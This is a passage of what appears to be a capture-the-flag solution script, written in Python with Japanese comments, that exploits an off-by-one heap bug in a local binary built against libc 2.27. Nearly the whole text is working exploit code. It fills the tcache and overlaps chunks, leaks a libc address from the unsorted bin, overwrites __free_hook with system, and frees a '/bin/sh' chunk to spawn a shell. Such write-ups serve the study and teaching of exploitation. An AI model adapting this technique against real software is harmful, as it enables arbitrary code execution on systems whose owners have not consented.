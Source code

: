 ```python

def delete(s, idx):
    select(s, b"3")
    s.recvuntil(b"Index: ")
    s.sendline(str(idx))


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        create: off-by-oneがある(nullだけでなく任意バイトを注ぎ込める)
        delete: ポインタはクリアされる -> Double Free, UAFはむずい
    """
    libc = ELF("./libc-2.27.so")
    arena_libc = 0x3ebc40
    free_hook_libc = libc.symbols["__free_hook"]
    system_libc = libc.symbols["system"]
    s = process("./pwn101.elf")

    # fill tcache
    fill_size = 0x170  # chunksize: 0x180
    for _ in range(7):
        create(s, fill_size)

    # avoid top conslidation
    create(s, 0x38, b"seven")  # 7
    # fill
    for i in range(7):
        delete(s, i)

    # overlaped chunks (sum of size: 0x180)
    create(s, 0x108)  # 0
    create(s, 0x68)  # 1

    # avoid top consolidation
    create(s, 0x58)  # 2
    create(s, 0x48, b"/bin/sh\x00")  # 3, ready for system("/bin/sh")

    # reallocate and write next size by off-by-one (0x111 -> 0x181)
    delete(s, 7)
    create(s, 0x38, b"4" * 0x38 + b"\x81")  # 4

    # send to unsorted bin
    delete(s, 0)
    create(s, 0x108)  # unsorted bin -> chunk1
    libc_base = u64(show(s, 1).ljust(8, b"\x00")) - arena_libc - 0x60
    print(libc_base)

    # write to __free_hook
    idx = create(s, 0x68)
    delete(s, idx)
    delete(s, 1)
    create(s, 0x68, p64(libc_base + free_hook_libc))
    create(s, 0x68)
    create(s, 0x68, p64(libc_base + system_libc))

    delete(s, 3)
```